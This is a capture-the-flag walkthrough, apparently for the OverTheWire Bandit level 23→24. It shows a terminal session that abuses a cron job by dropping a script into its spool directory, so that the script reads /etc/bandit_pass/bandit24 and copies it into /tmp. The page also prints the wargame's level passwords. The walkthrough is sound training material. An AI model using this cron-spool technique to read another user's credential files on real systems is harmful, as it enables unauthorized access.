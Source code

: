 ## Objetivo

A program is running automatically at regular intervals from **cron**, the time-based job scheduler. Look in **/etc/cron.d/** for the configuration and see what command is being executed.

**NOTE:** This level requires you to create your own first shell-script. This is a very big step and you should be proud of yourself when you beat this level!

**NOTE 2:** Keep in mind that your shell script is removed once executed, so you may want to keep a copy around…

## Datos de acceso al nivel

bandit23
QYw0Y2aiA672PsMmh9puTQuhoz8SyR2G

## Solución
```
bandit23@bandit:~$ ls /etc/cron.d 
cronjob_bandit15_root cronjob_bandit22 cronjob_bandit24 e2scrub_all sysstat cronjob_bandit17_root cronjob_bandit23 cronjob_bandit25_root otw-tmp-dir 
bandit23@bandit:~$ cat /etc/cron.d/cronjob_bandit24 @reboot bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null * * * * * bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null bandit23@bandit:~$ cat /usr/bin/cronjob_bandit24.sh 

#!/bin/bash 

myname=$(whoami) 

cd /var/spool/$myname/foo 
echo "Executing and deleting all scripts in /var/spool/$myname/foo:" 
for i in * .*;
do 
	if [ "$i" != "." -a "$i" != ".." ]; 
	then 
		echo "Handling $i" 
		owner="$(stat --format "%U" ./$i)" 
		if [ "${owner}" = "bandit23" ]; 
			then timeout -s 9 60 ./$i 
		fi 
		rm -f ./$i 
	fi 
done 

bandit23@bandit:~$ mkdir /tmp/kd 
bandit23@bandit:~$ cd /tmp/kd 
bandit23@bandit:/tmp/kd$ echo "cat /etc/bandit_pass/bandit24 > /tmp/kd/password" > script.sh 
bandit23@bandit:/tmp/kd$ cat script.sh cat /etc/bandit_pass/bandit24 > /tmp/kd/password bandit23@bandit:/tmp/kd$ chmod +x script.sh bandit23@bandit:/tmp/kd$ touch password 
bandit23@bandit:/tmp/kd$ chmod 666 password bandit23@bandit:/tmp/kd$ ls –la total 92 drwxrwxr-x 2 bandit23 bandit23 4096 Sep 4 01:51 .
drwxrwx-wt 1957 root root 81920 Sep 4 01:51 ..
-rw-rw-rw- 1 bandit23 bandit23 0 Sep 4 01:51 password 
-rwxrwxr-x 1 bandit23 bandit23 49 Sep 4 01:50 script.sh
bandit23@bandit:/tmp/kd$ cp script.sh /var/spool/bandit24/foo bandit23@bandit:/tmp/kd$ ls -la 
total 92 
drwxrwxr-x 2 bandit23 bandit23 4096 Sep 4 01:51 . 
drwxrwx-wt 1957 root root 81920 Sep 4 01:53 .. 
-rw-rw-rw- 1 bandit23 bandit23 0 Sep 4 01:51 password 
-rwxrwxr-x 1 bandit23 bandit23 49 Sep 4 01:50 script.sh 
bandit23@bandit:/tmp/kd$ date Sun Sep 4 01:54:12 AM UTC 2022 bandit23@bandit:/tmp/kd$ ls -la 
total 96
drwxrwxr-x 2 bandit23 bandit23 4096 Sep 4 01:51 . 
drwxrwx-wt 1957 root root 81920 Sep 4 01:53 .. 
-rw-rw-rw- 1 bandit23 bandit23 33 Sep 4 01:54 password 
-rwxrwxr-x 1 bandit23 bandit23 49 Sep 4 01:50 script.sh bandit23@bandit:/tmp/kd$ cat password VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar

```
## Notas adicionales

## Referencias